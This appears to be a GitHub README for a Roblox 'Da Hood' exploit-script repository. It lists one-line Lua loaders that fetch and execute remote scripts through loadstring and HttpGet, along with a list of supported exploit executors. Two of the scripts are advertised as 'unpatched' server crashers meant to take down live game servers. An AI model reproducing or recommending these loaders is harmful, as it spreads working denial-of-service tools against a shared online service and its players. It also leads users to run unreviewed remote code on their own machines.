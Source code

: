 # lua-scripts

## Loadstrings


**DaHood Roblox Account Manager Integration** <br />
*This is a addon that sets your DaHood Cash as description in your Roblox Account Manager* <br />
*Working* <br />
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/Chiiicken5538/lua-scripts/main/DaHood%20RAM%20Integration.lua"))()
```


**Chiiickens Crashing GUI** <br />
*A GUI that shows you multiple crashing methods - Please select only one crasher - updating + adding more crashing methods soon* <br />
*Unpatched* <br />
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/Chiiicken5538/lua-scripts/main/crashinggui"))()
```

**Modified Swagmode Crasher** <br />
*Lets you Crash the Server using Swagcrash - This Modification is boosting your FPS so the Server will Crash faster* <br />
*If the Swagcrash GUI opens instantly press Start Crash*<br />
*Unpatched* <br />
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/Chiiicken5538/lua-scripts/main/modified_swagcrash"))()
```

**AntiAFK** <br />
*Prevents Idle-Kicks* <br />
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/Chiiicken5538/lua-scripts/main/antiafk.lua"))()
```


## Supported Executors
- SynapseX
- ScriptWare
- Fluxus
- Krnl
- Temple 
- litterly every updated exploit

## me
» Discord <br />
> chiiicken#3436 <br />
